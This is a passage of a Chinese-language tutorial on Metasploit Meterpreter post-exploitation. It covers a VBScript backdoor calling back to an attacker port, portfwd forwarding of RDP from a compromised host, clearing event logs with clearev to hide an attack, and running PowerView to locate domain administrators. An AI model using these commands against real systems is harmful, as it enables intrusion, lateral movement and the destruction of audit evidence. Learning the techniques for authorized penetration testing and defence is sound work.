 ![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)![](https://p2.ssl.qhimg.com/t013e5f61155b137195.png)

我们在被攻击机可以看到这个文件，是一个VBScript脚本

![](https://p4.ssl.qhimg.com/t01336794669f65f61f.png)

查看靶机的端口连接情况，可以看到靶机连着我们的8888端口

![](https://p4.ssl.qhimg.com/t01a2f2ddbf5d84965a.png)

### 设置Socks代理

传送门：[MSF搭建socks代理](https://xie1997.blog.csdn.net/article/details/105872076)

### portfwd端口转发

portfwd 是meterpreter提供的一种基本的端口转发。porfwd可以反弹单个端口到本地，并且监听，使用方法如下

```yaml
portfwd add -l 3389 -r 192.168.11.13 -p 3389     #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
```

![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)![](https://p5.ssl.qhimg.com/t01bf06d9d40a3ae059.png)

然后我们只要访问本地的3389端口就可以连接到目标主机的3389端口了

```undefined
rdesktop 127.0.0.1:3389
```

![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)![](https://p4.ssl.qhimg.com/t01812bd9a9d08b58f9.png)

### 清除事件日志

完成攻击操作之后，千万别忘了“打扫战场”。我们的所有操作都会被记录在目标系统的日志文件之中，因此我们需要在完成攻击之后使用命令 clearev 命令来清除事件日志：

![](https://p1.ssl.qhimg.com/t01eadfbd8af4b66e24.png)

## 导入并执行PowerShell脚本

如果powershell脚本是用于域内信息收集的，则获取到的权限用户需要是域用户

```bash
load powershell            #加载powershell功能
powershell_import /root/PowerView.ps1      #导入powershell脚本，提前将该powershell脚本放到指定目录
powershell_execute Get-NetDomain     #执行该脚本下的功能模块Get-domain，该模块用于获取域信息，一个脚本下通常有多个功能模块
powershell_execute Invoke-UserHunter  #该功能模块用于定位域管理员登录的主机
powershell_execute Get-NetForest      #该模块用于定位域信息
```

![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)![](https://p5.ssl.qhimg.com/t0142cb132886331f64.png)

![](https://p4.ssl.qhimg.com/t011d04c17539196b4c.png)
